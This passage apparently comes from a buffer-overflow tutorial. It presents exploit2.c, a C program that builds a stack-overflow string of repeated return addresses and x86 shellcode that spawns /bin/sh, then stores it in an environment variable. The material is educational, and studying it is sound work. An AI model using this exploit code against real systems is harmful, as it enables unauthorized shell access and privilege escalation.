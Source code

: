    We can create a program that takes as a parameter a buffer size, and an
offset from its own stack pointer (where we believe the buffer we want to
overflow may live).  We'll put the overflow string in an environment variable
so it is easy to manipulate:

exploit2.c
</PRE>
```C
#include <stdlib.h>

#define DEFAULT_OFFSET                    0
#define DEFAULT_BUFFER_SIZE             512

char shellcode[] =
  "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b"
  "\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd"
  "\x80\xe8\xdc\xff\xff\xff/bin/sh";

unsigned long get_sp(void) {
   __asm__("movl %esp,%eax");
}

void main(int argc, char *argv[]) {
  char *buff, *ptr;
  long *addr_ptr, addr;
  int offset=DEFAULT_OFFSET, bsize=DEFAULT_BUFFER_SIZE;
  int i;

  if (argc > 1) bsize  = atoi(argv[1]);
  if (argc > 2) offset = atoi(argv[2]);

  if (!(buff = malloc(bsize))) {
    printf("Can't allocate memory.\n");
    exit(0);
  }

  addr = get_sp() - offset;
  printf("Using address: 0x%x\n", addr);

  ptr = buff;
  addr_ptr = (long *) ptr;
  for (i = 0; i < bsize; i+=4)
    *(addr_ptr++) = addr;

  ptr += 4;
  for (i = 0; i < strlen(shellcode); i++)
    *(ptr++) = shellcode[i];

  buff[bsize - 1] = '\0';

  memcpy(buff,"EGG=",4);
  putenv(buff);
  system("/bin/bash");
}
```
<PRE>
